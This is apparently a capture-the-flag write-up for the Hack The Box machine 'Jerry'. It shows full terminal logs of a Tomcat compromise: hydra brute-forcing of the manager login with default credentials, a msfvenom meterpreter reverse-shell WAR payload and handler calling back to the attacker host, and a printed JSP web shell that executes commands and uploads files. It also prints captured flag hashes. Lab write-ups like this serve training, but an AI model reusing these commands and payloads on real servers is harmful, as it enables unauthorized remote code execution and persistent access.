#### Jerry

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [Web Enumeration](#web-enumeration)
- [Gaining root](#gaining-root)
- [Post Exploitation](#post-exploitation)
- [References](#references)

###### Attacker Info

```sh
root@kali:~/jerry# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.0.82  netmask 255.255.255.0  broadcast 10.0.0.255
        inet6 fe80::20c:29ff:fe7f:39f2  prefixlen 64  scopeid 0x20<link>
        inet6 2601:5cc:c900:4024::b31c  prefixlen 128  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024:456f:e53e:f2ee:1f56  prefixlen 64  scopeid 0x0<global>
        inet6 2601:5cc:c900:4024:20c:29ff:fe7f:39f2  prefixlen 64  scopeid 0x0<global>
        ether 00:0c:29:7f:39:f2  txqueuelen 1000  (Ethernet)
        RX packets 53931  bytes 80439394 (76.7 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5831  bytes 425529 (415.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 26  bytes 1426 (1.3 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 26  bytes 1426 (1.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.18  netmask 255.255.254.0  destination 10.10.14.18
        inet6 dead:beef:2::1010  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::c8b7:93da:486:85a8  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5  bytes 240 (240.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~/jerry#
```

###### Nmap Scan

```sh
root@kali:~/jerry# nmap -sC -sV -oA jerry.nmap 10.10.10.95
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-18 14:33 EST
Nmap scan report for 10.10.10.95
Host is up (0.11s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.94 seconds
root@kali:~/jerry#
```

###### Web Enumeration

```
http://10.10.10.95:8080/
```



```
http://10.10.10.95:8080/manager/status
```

```
admin
admin
```



```
http://10.10.10.95:8080/manager/html
http://10.10.10.95:8080/host-manager/html
```





```sh
root@kali:~/jerry# cp /opt/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt .
root@kali:~/jerry# less tomcat-betterdefaultpasslist.txt
```

```sh
root@kali:~/jerry# hydra -C tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-11-18 14:51:06
[DATA] max 16 tasks per 1 server, overall 16 tasks, 79 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080//manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 4 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-11-18 14:51:13
root@kali:~/jerry#
```

```
http://10.10.10.95:8080/manager/html
```

```
tomcat
s3cret
```





###### Gaining root

```sh
root@kali:~/jerry# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=9001 -f war -o exploit.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of war file: 2459 bytes
Saved as: exploit.war
root@kali:~/jerry#
root@kali:~/jerry# du -hs exploit.war
4.0K	exploit.war
root@kali:~/jerry#
```

```sh
root@kali:~/jerry# unzip exploit.war
Archive:  exploit.war
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF
   creating: WEB-INF/
  inflating: WEB-INF/web.xml
  inflating: wcagraunevd.jsp
root@kali:~/jerry#
```

```sh
root@kali:~/jerry# msfdb run
[+] Starting database
[+] Creating database user 'msf'
[+] Creating databases 'msf'
[+] Creating databases 'msf_test'
[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
[+] Creating initial database schema

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v4.17.24-dev                         ]
+ -- --=[ 1825 exploits - 1033 auxiliary - 318 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 10.10.14.18:9001
msf exploit(multi/handler) >
```





```
http://10.10.10.95:8080/exploit/wcagraunevd.jsp
```

```sh
msf exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.95

msf exploit(multi/handler) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                  Connection
  --  ----  ----                     -----------                  ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JERRY  10.10.14.18:9001 -> 10.10.10.95:49200 (10.10.10.95)

msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2340 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>cd ..\
cd ..\

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\

06/19/2018  03:07 AM    <DIR>          apache-tomcat-7.0.88
08/22/2013  05:52 PM    <DIR>          PerfLogs
06/19/2018  05:42 PM    <DIR>          Program Files
06/19/2018  05:42 PM    <DIR>          Program Files (x86)
06/18/2018  10:31 PM    <DIR>          Users
06/19/2018  05:54 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  27,594,276,864 bytes free

C:\>cd Users
cd Users

C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users

06/18/2018  10:31 PM    <DIR>          .
06/18/2018  10:31 PM    <DIR>          ..
06/18/2018  10:31 PM    <DIR>          Administrator
08/22/2013  05:39 PM    <DIR>          Public
               0 File(s)              0 bytes
               4 Dir(s)  27,594,276,864 bytes free

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,594,276,864 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  06:09 AM    <DIR>          .
06/19/2018  06:09 AM    <DIR>          ..
06/19/2018  06:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,594,276,864 bytes free

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>
```

###### Post Exploitation

- [`A SMALLER, BETTER JSP WEB SHELL`](https://securityriskadvisors.com/blog/a-smaller-better-jsp-web-shell/)
- [`SecurityRiskAdvisors/cmd.jsp`](https://github.com/SecurityRiskAdvisors/cmd.jsp)

```sh
root@kali:~/jerry# git clone https://github.com/SecurityRiskAdvisors/cmd.jsp.git
Cloning into 'cmd.jsp'...
remote: Enumerating objects: 23, done.
remote: Total 23 (delta 0), reused 0 (delta 0), pack-reused 23
Unpacking objects: 100% (23/23), done.
root@kali:~/jerry#
```

```sh
root@kali:~/jerry# cd cmd.jsp/
root@kali:~/jerry/cmd.jsp# ls -l
total 56
-rwxr-xr-x 1 root root  1180 Nov 18 18:26 a.js
-rwxr-xr-x 1 root root   976 Nov 18 18:26 cmd.jsp
-rwxr-xr-x 1 root root  1166 Nov 18 18:26 cmd_readable.jsp
-rw-r--r-- 1 root root   662 Nov 18 18:26 cmd.war
-rw-r--r-- 1 root root 35141 Nov 18 18:26 LICENSE
-rw-r--r-- 1 root root  3224 Nov 18 18:26 README.md
root@kali:~/jerry/cmd.jsp# nano cmd.jsp
root@kali:~/jerry/cmd.jsp#
```

```sh
root@kali:~/jerry/cmd.jsp# cat cmd.jsp
<%@page import="java.io.*, java.util.*, javax.xml.bind.*, java.net.*"%><script src="http://10.10.14.18/a.js"></script><%!public String v(String w){String x="";try{x=URLDecoder.decode(w,"UTF-8");}catch(Exception e){}return x;}%><%String o,l,d;o=l=d="";DataInputStream r=new DataInputStream(request.getInputStream());while((l=r.readLine())!=null){d+=l;}if(d.indexOf("c=")>=0){String g=v(d.substring(2));String s;try{Process p=Runtime.getRuntime().exec(g);DataInputStream i=new DataInputStream(p.getInputStream());out.print("<pre>");while((s=i.readLine())!=null){o+=s.replace("<","&lt;").replace(">","&gt;")+"<br>";}}catch(Exception e){out.print(e);}}else{if(d.length()>1){int b=d.indexOf("b=");int n=d.indexOf("n=");byte[] m=DatatypeConverter.parseBase64Binary(v(d.substring(b+2)));String f=v(d.substring(2,n-1))+File.separator+v(d.substring(n+2,b-1));try{OutputStream stream=new FileOutputStream(f);stream.write(m);o="Uploaded: "+f;}catch(Exception e){out.print(e);}}}%><%=o%>
root@kali:~/jerry/cmd.jsp# rm cmd.war
root@kali:~/jerry/cmd.jsp# zip cmd.war cmd.jsp
  adding: cmd.jsp (deflated 47%)
root@kali:~/jerry/cmd.jsp#
```





```sh
root@kali:~/jerry/cmd.jsp# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.14.18 - - [18/Nov/2018 18:32:44] "GET /a.js HTTP/1.1" 200 -
```

```
http://10.10.10.95:8080/cmd/cmd.jsp
```

```
whoami
cmd /c dir
```

